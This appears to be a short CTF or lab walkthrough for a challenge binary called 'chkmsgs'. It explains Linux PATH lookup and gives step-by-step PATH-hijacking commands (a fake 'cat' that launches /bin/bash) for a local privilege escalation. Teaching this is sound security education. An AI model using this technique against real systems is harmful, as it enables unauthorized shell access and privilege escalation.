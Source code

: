 ## chkmsgs.md

This one is tricky, and requires knowledge about how Linux and similar operating systems handle running binaries. When you run a command like `ls` for example, how does Linux know to run the `ls` executable that you want? Remember, these commands are all programs on the machine stored somewhere, and the operating system has to find them somehow

**If you were looking for a hint stop reading now**

In the Linux operating system, there are global variables that hold information. These variables are called environment variables, and one in particular holds information about where executables are stored on a system. This variable is called the `PATH`. In your terminal, you can print the `PATH` variable by running `echo $PATH`.

Prepend the path with the current directory  
`export PATH=.:$PATH`  
Create a file named `cat` with the string `/bin/bash` inside  
`echo "/bin/bash" > cat`  
Make the cat file executable  
`chmod u+x cat`  
Exploit  
`./chkmsgs`  
You can fix your PATH variable by restarting your terminal or running `export` and setting `PATH` back to the original string

**Why does this work?**  
Anytime you type a command, the operating system looks at the `PATH` variable and searches every directory listed in it for a program of the same name as the command. Once it finds one that matches, it runs it immediately. In other words, it runs the first one it finds. What if you were to change that variable so that this program found a *different* `cat` binary...